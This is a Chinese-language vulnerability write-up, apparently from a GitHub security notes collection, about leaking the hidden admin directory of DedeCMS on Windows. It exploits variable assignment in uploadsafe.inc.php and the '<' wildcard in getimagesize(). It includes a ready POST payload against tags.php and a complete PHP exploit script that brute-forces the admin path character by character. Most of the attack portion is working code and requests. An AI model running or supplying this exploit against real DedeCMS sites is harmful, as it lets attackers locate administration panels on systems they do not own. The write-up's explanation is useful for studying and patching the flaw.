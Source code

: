 ### 利用限制

- 仅针对windows系统

### 进入正题

首先看核心文件common.inc.php 大概148行左右

```
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

uploadsafe.inc.php

```
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

注意`$$_key`这一句，变量`$key`取自于`$_FILE`，由于`$_FILE`可控自然`$key`也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现`cfg_|GLOBALS`。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用`<<`通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

修正一处笔误。
 ~~但在这之前有个`if(!defined('DEDEADMIN'))`的判断,这个很好绕过设置`tmp_name为0或者1.jpg含.` 就可以绕过。~~

```
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {   
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    这个判断只需要设置${$_key.'_name'} 的值为0或者1.jpg 含点“ . ” 既可以绕过 如：_FILES[b4dboy][name]=1.jpg
```

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

### 举个例子

文字不好表达，便于理解。

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

http://localhost/test.php?poc=./a</favicon.ico
返回：0

http://localhost/test.php?poc=./de</favicon.ico
返回：1

http://localhost/test.php?poc=./ded</favicon.ico
返回：1

........
```

### 构造poc

```
http://localhost/dedecms/tags.php

post:

dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif
```

Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候： 图1

[![img](DedeCms后台地址泄露漏洞.assets/20180123000649-4080b60c-ff8e-1.png)](DedeCms后台地址泄露漏洞.assets.assets/1627364298003714.jpg)
 当目录不存在点时候： 图2
 [![img](DedeCms后台地址泄露漏洞.assets/20180123000533-133714d4-ff8e-1.png)](DedeCms后台地址泄露漏洞.assets.assets/1627364298880789.jpg)

### EXP：

```
<?php
$domain='http://localhost/dedecms/';
$url=$domain.'/index.php';
function post($url, $data, $cookie = '') {
    $options = array(
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_HEADER => true,
        CURLOPT_POST => true,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_COOKIE => $cookie,
        CURLOPT_POSTFIELDS => $data,
    );
    $ch = curl_init($url);
    curl_setopt_array($ch, $options);
    $result = curl_exec($ch);
    curl_close($ch);
    return $result;
}
$testlen=25;
$str=range('a','z');
$number=range(0,9,1);
$dic = array_merge($str, $number);
$n=true;
$nn=true;
$path='';
while($n){
    foreach($dic as $v){
        foreach($dic as $vv){
            #echo $v.$vv .'----';
            $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$v$vv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
            $result=post($url,$post_data);
            if(strpos($result,'Upload filetype not allow !') === false){
                $path=$v.$vv;$n=false;break 2;
            }
        }
    }
}
while($nn){
    foreach($dic as $vvv){
        $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$path$vvv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
        $result=post($url,$post_data);
        if(strpos($result,'Upload filetype not allow !') === false){
            $path.=$vvv;
            echo $path . PHP_EOL;
            $giturl=$domain.'/'.$path.'/images/admin_top_logo.gif';
            if(@file_get_contents($giturl)){
                echo $domain.'/'.$path.'/';
                $nn=false;break 2;
            }
        }
    }
}
?>
```

[![img](DedeCms后台地址泄露漏洞.assets/20180123000746-62cc9f96-ff8e-1.png)](DedeCms后台地址泄露漏洞.assets.assets/1627364299874198.jpg)

### 感谢

感谢给我提供这个思路的朋友

##### 参考文章